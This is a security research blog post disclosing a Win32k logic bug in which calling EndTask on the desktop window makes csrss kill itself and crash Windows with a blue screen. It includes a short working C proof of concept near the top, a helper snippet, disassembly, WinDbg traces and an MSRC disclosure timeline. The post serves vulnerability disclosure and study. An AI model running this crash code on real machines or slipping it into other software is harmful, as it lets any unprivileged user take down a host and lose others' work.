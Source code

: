 +++
title = "An unexpected logic bug on Win32k"
authors = ["hugsy"]
date = 2020-03-09T00:00:00Z
updated = 2020-03-09T00:00:00Z

[taxonomies]
categories = ["research"]
tags = ["windows","kernel","logic","bug,win32k"]

[extra]
header_img = "/img/CDA9D98DF912DE08CB61AD0A3A148723A37BC3F3.png"
+++

## The short version

The short version is that there's a small logic bug in  `user32!EndTask()` which doesn't really check the `HWND` handle passed when forcefully killing the process, allowing unprivileged process to BSoD the host by killing the critical process `csrss`. And as a bonus the PoC code #FitsInATweet:

```c
int WinMain(HINSTANCE h, HINSTANCE ins, LPSTR cmd, int nb)
{
    EndTask(GetDesktopWindow(), 0, 1);
    return 0;
}
```

Just compile, run (here on a build 19569.1000 x64) and enjoy:

{{ img(src="https://i.imgur.com/DRxULeh.png" title="bsod") }}


## The less short version

Reversing `Win32k.sys` driver has been my hobby lately mostly to understand it (finally) seriously - if there is such a thing. This is a really small funny logic bug I encountered while reversing it, which I don't feel too bad disclosing since there is [no security exploitability](https://www.microsoft.com/en-us/msrc/windows-security-servicing-criteria) (simply annoying your sysadmin).


### The juicy part

The legacy function [EndTask](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-endtask) can be used to forcefully close the specific window whose handle is passed as argument, and free all associated resources. Although deprecated according to the MSDN, it is still callable even on the latest Windows versions.

The function `user32!EndTask()` is merely a wrapper designed to forward some specific messages to the [CSRSS](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem) via an ALPC, using the exported function
`ntdll!CsrClientCallServer` with the ApiNumber 0x30401. Easily enough, the function takes the handle to the window to shut down. The function operates with the thread's token, and is unprivileged. Starting playing around, I remembered that `GetDesktopWindow()` will return a valid handle to the desktop window, but has [many interesting properties](https://devblogs.microsoft.com/oldnewthing/20040224-00/?p=40493) including that that it is owned by `csrss.exe`. That can be quickly demonstrated using the following code:

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    char msg[1024]={0,};
    HWND hwnd = GetDesktopWindow();
    DWORD dwProcessId;
    GetWindowThreadProcessId(hwnd, &dwProcessId);
    sprintf(msg, "hwnd=%p pid=%lu\n", hwnd, dwProcessId);
    MessageBoxA(0,msg,0,MB_OK);
    return 0;
}
```
which will output the PID of CSRSS

{{ img(src="https://i.imgur.com/Q4XsJZP.png" title="finding_csrss") }}


In turn, CSRSS will consume that message and call `winsrvext!SrvEndTask()` then `winsrvext!EndTask()`. In this function, in order to determine the process to terminate `csrss` will invoke `GetWindowThreadProcessId()` and will use the found process id value to look into the [`CSR_PROCESS`](http://www.geoffchappell.com/studies/windows/win32/csrsrv/api/process/process.htm) linked
list (via `csrsrv!CsrRootProcess`), and find the `CSR_PROCESS` structure associated to such PID. From `winsrvext.dll`:

```asm
_EndTask      ; NTSTATUS __fastcall EndTask(HWND hWnd, int a2)
_EndTask      _EndTask        proc near               ; CODE XREF: SrvEndTask+119↓p
_EndTask                                              ; DATA XREF: .pdata:000000000001D21C↓o
[...]
_EndTask+A7                   lea     rdx, [rsp+120h+dwProcessId] ; lpdwProcessId
_EndTask+AC                   mov     rcx, rdi        ; hWnd
_EndTask+AF                   call    cs:__imp_GetWindowThreadProcessId
```

### The bug

And therein lied the bug: as shown above with the small C snippet, the owner of `GetDesktopWindow()` is `csrss` itself, therefore the lookup will return the `CSR_PROCESS` structure of `CSRSS` (which happens to be the first entry in the `CsrRootProcess` linked list). Finally, `winsrvext!EndTask()` will proceed to call `ntdll!NtTerminateProcess()` passing the handle to the
process `CSRSS`, which has the value `(HANDLE)-1` (i.e. `GetCurrentProcess()`). WinDbg can be used to confirm that behavior:

```txt
0: kd> dps poi( csrsrv!CsrRootProcess )
00000218`7d004550  00000000`00000c14 <- CSR_PROCESS.ClientId
00000218`7d004558  00000000`00000c18
00000218`7d004560  00000218`7d008bf0 <- CSR_PROCESS.LinkList
00000218`7d004568  00000218`7d04b3a0 <- CSR_PROCESS.ThreadList
00000218`7d004570  00000218`7d005368 [...]
00000218`7d004578  00000218`7d0486b8
00000218`7d004580  00000000`00000000
00000218`7d004588  00000000`00000000
00000218`7d004590  00000000`00000000
00000218`7d004598  00000000`00000000
00000218`7d0045a0  ffffffff`ffffffff <<- CSR_PROCESS.ProcessHandle (i.e. value passed to NtTerminateProcess)
00000218`7d0045a8  00000040`00000005
[...]
```

Therefore, this will make `CSRSS` killing itself when invoking calling the syscall `nt!NtTerminateProcess(GetCurrentProcess(), 0 )`. As a critical process, killing CSRSS will immediately result in a BSoD, which BugCheck clearly shows. Also note that this crash can be triggered by any user even with any privilege. In WinDbg the faulting stack trace of our BSoD retraces exactly everything we show:

```txt
CRITICAL_PROCESS_DIED (ef)
        A critical system process died
[...]
Arguments:
Arg1: ffffe30f47ce14c0, Process object or thread object
Arg2: 0000000000000000, If this is 0, a process died. If this is 1, a thread died.
[...]

STACK_TEXT:
ffff8803`2a71f280 fffff801`795c75c1 : [...] : nt!PspCatchCriticalBreak+0xa9
ffff8803`2a71f320 fffff801`79439fc0 : [...] : nt!PspTerminateAllThreads+0x175e3d
ffff8803`2a71f390 fffff801`79439da9 : [...] : nt!PspTerminateProcess+0xe0
ffff8803`2a71f3d0 fffff801`78fd2d15 : [...] : nt!NtTerminateProcess+0xa9
ffff8803`2a71f440 00007ff9`83b5c644 : [...] : nt!KiSystemServiceCopyEnd+0x25
000000b6`d35befd8 00007ff9`809066e5 : [...] : ntdll!NtTerminateProcess+0x14
000000b6`d35befe0 00007ff9`80906bae : [...] : winsrvext!EndTask+0x235
000000b6`d35bf110 00007ff9`80975af4 : [...] : winsrvext!SrvEndTask+0x11e
000000b6`d35bf380 00007ff9`83b2cedf : [...] : CSRSRV!CsrApiRequestThread+0x484
000000b6`d35bf810 00000000`00000000 : [...] : ntdll!RtlUserThreadStart+0x2f
```

## Final words

This was a good lesson, mostly because I would never have thought finding a (cheap) logic bug in an API that is around for decades and probably gleaned at many times by people way smarter.

Also, I've reported more Win32k bugs to MS which I'll be writing up on soon.

That's all for this quick post!

✌

## Disclosure timeline

  * 2019-12-09 : Bug found
  * 2020-02-08 : Finally found some time to do some analysis
  * 2020-02-09 : Issue submitted to MSRC (case 56511)
  * 2020-03-04 : EWONTFIX
